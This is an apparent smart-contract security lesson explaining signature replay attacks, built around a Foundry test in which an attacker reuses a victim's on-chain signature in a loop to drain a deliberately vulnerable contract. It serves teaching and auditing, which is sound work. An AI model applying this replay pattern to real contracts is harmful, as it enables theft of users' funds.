 ```yaml
---
title: Exploit - Signature Replay Minimized
---
```


_Follow along with the video lesson:_

---

### Exploit - Signature Replay Minimized

We need to talk about signature reply attacks, because they are painfully common in Web3.

We've got a great hands-on, [**Remix example**](https://remix.ethereum.org/#url=https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/signature-replay/SignatureReplay.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.20+commit.a1b79de6.js) in our [**sc-exploits-minimized**](https://github.com/Cyfrin/sc-exploits-minimized) repo to assist you in better understanding this attack vector. If you want to play with it in Remix, you're encouraged to do so, but I find it easier to bring up the [**SignatureReplayTest.t.sol**](https://github.com/Cyfrin/sc-exploits-minimized/blob/main/test/unit/SignatureReplayTest.t.sol) file in the sc-exploits-minimized repo locally.

```js
function test_signatureReplay() public {
    vm.startPrank(victim.addr);
    signatureReplay.deposit{value: startingAmount}();

    // These 3 lines happen off chain
    bytes32 structHash = keccak256(abi.encode(signatureReplay.TYPEHASH(), withdrawAmount));
    bytes32 digest = signatureReplay.getHashTypedDataV4(structHash); // This function will prepend the EIP-712 domain separator
    (uint8 v, bytes32 r, bytes32 s) = vm.sign(victim.key, digest);

    // Victim signs withdrawal of 1 ether, oh no! The signature is loose!
    // The V, R, and S values are live!
    signatureReplay.withdrawBySig(v, r, s, withdrawAmount);
    vm.stopPrank();

    assertEq(address(signatureReplay).balance, startingAmount - withdrawAmount);
    assertEq(signatureReplay.balances(victim.addr), startingAmount - withdrawAmount);

    vm.startPrank(attacker);
    while (address(signatureReplay).balance >= 1 ether) {
        signatureReplay.withdrawBySig(v, r, s, withdrawAmount);
    }
    vm.stopPrank();

    assertEq(address(signatureReplay).balance, 0);
    assertEq(signatureReplay.balances(victim.addr), 0);
}
```

In this test, we have a victim depositing funds to a protocol and then signing a transaction with `vm.sign`. The victim then calls `withdrawBySig` which broadcasts the `v, r, and s` values of the victims signature for this message, on-chain.

```js
signatureReplay.withdrawBySig(v, r, s, withdrawAmount);
```

From here, an attacker sees these values on-chain and decides to call the `withdrawBySig` function with them repeatedly until all funds are removed from the protocol.

Granted, in this example the attacker isn't _stealing_ anything, you could see the potential exploits that could arise from this sort of vulnerability.

In the next lesson, we'll write up a `PoC` to showcase exactly how this could be exploited within `Boss Bridge`. See you there!
